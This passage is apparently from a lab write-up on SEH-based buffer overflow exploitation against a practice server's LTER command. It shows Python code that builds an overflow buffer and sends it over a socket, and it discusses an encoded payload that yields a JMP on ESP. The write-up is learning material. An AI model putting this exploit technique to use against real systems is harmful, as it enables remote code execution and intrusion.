 ```python
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Let's send this and do a before and after for our Encoded/Decoded payload. If it is done correctly, a red `JMP` instruction should pop out of thin air visually on top of `ESP` once we execute the last part, the `\x50` (push `EAX`). 

**BEFORE**

![](/assets/images/CTP/LTERb4.JPG)

**AFTER**

![](/assets/images/CTP/LTERafter.JPG)
